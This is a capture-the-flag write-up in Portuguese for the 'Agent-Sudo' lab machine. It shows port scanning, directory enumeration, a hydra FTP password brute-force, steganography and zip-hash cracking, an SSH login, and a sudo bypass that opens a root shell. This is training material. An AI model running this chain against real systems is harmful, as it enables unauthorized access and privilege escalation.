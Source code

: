 # Agent-Sudo

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.20.48
```

![image](https://github.com/lufffe/Writeups/assets/90646635/cd3568d5-c517-4d16-9d14-a72a6a77943b)


![image](https://github.com/lufffe/Writeups/assets/90646635/f394bbd5-c321-478c-9931-506790ea7383)


* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 21,22,80 10.10.20.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4c62a143-6d89-4fe2-8ffb-2ba7da07a262)

* ### Olhando no http
  
![image](https://github.com/lufffe/Writeups/assets/90646635/589e6c75-6ab2-46c1-a20e-c991c03bc289)


```bash
curl -A "C" -L 10.10.224.108
```
![image](https://github.com/lufffe/Writeups/assets/90646635/de62aa42-e5d5-4322-b7d2-6cef17f7d6e5)

* ###  Scan de Arquivos e Diretórios.
```bash
gobuster dir -u http://10.10.20.48 -w directory-list-2.3-small.txt -t 100 --no-error
```

* ### Bruteforce no FTP
```bash
hydra -l chris -P ~/rockyou.txt ftp://10.10.20.48
```

![image](https://github.com/lufffe/Writeups/assets/90646635/59be2048-e06f-4409-92e1-5182a28763e7)

* ### Acessando o FTP.
```bash
ftp 10.10.20.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/e3b8c8f2-4606-482e-a2d0-fba0f607b853)


```bash
binwalk -e cutie.png
```
![image](https://github.com/lufffe/Writeups/assets/90646635/9e894823-400d-44d9-af12-e80691915f8a)

```bash
zip2john 8702.zip > hash.txt 
```

```bash
john --wordlist=~/rockyou.txt hash.txt
```

![image](https://github.com/lufffe/Writeups/assets/90646635/ca6362d6-01f4-47fb-bef1-96a9ca9afd71)

 
```bash
7z x 8702.zip 
```
![image](https://github.com/lufffe/Writeups/assets/90646635/67030a0b-8f9b-472a-bb11-c8d73fe80f07)

```bash
cat To_agentR.txt 
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d59d51b8-dce2-4e9b-84e8-9641c2ebcc9f)


![image](https://github.com/lufffe/Writeups/assets/90646635/e3d6aa92-6bbd-48b6-a641-378aa139910b)

```bash
steghide extract -sf cute-alien.jpg
```

![image](https://github.com/lufffe/Writeups/assets/90646635/5aa953fc-08b7-4af4-9326-f9bb0297ae44)



```Bash
cat message.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/86e61009-c530-4622-8d1b-9a93bd9486ff)

```Bash
ssh james@10.10.20.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f488accb-48ed-496f-b3af-e55bcee36c0e)

```bash
cat user_flag.txt
```
> ##################################

```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/43eff9af-ea8b-4d66-8f8d-a7f6f6653bda)

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
```
![image](https://github.com/lufffe/Writeups/assets/90646635/8607e831-f124-42bf-aab4-2662af23ffdc)

